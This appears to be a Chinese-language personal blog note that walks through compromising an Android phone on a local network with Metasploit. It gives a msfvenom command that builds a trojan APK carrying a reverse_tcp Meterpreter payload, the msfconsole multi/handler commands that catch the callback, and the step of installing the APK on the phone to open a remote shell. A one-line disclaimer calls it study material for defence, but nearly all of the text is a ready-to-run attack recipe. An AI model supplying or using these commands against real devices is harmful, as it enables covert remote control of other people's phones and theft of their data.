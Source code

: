```yaml
---
title: 【笔记】msf 黑入安卓系统
categories:
  - Penetration Tests
date: 2020-01-10 17:29:40
password: pass
---
```


## 前言

使用`msf`工具黑入手机安卓系统（局域网）

<font color="red">本文仅用于网络信息防御学习</font>

<!-- more -->

## 准备工作

- 安卓手机

- [msf](https://feiju12138.github.io/2019/11/16/安装配置Metasploit-Framework/)

## 开始测试

### 制作木马

#### 查看本机ip地址

``` sh
ifconfig
```

#### 利用msf制作安卓木马

> `<ip_address>`：本机局域网ip地址
> `<port>`：自定义端口号，用于监听木马程序
> `<name>`：安装包名称

``` sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=<ip_address> LPORT=<port> R> ~/Downloads/<name>.apk
```

### 启动msf监听木马程序

``` sh
msfconsole 
use multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <ip_address>
set LPORT <port>
exploit
```

### 启动木马程序

- 安卓机和本机在同一局域网，安装并启动木马程序

- 本机返回`Meterpreter session 1 opened`，监听成功

![01.png](/images/20200110172940/01.png)

### 对手机进行远程操作

- 查看帮助

``` sh
meterpreter > help
```

## 完成

- 成功黑入后可对手机进行远程操作

- 展示三张成功黑入截图，留作纪念

![02.png](/images/20200110172940/02.png)

![03.png](/images/20200110172940/03.png)

![04.png](/images/20200110172940/04.png)

## 后记

- 本机返回`Meterpreter session 1 closed`，监听程序退出

## 参考文献

[哔哩哔哩——Hai_Dog](https://www.bilibili.com/video/av16375329/?spm_id_from=trigger_reload)
[哔哩哔哩——你会忘了我](https://www.bilibili.com/video/av33571463/?spm_id_from=333.788.videocard.0)

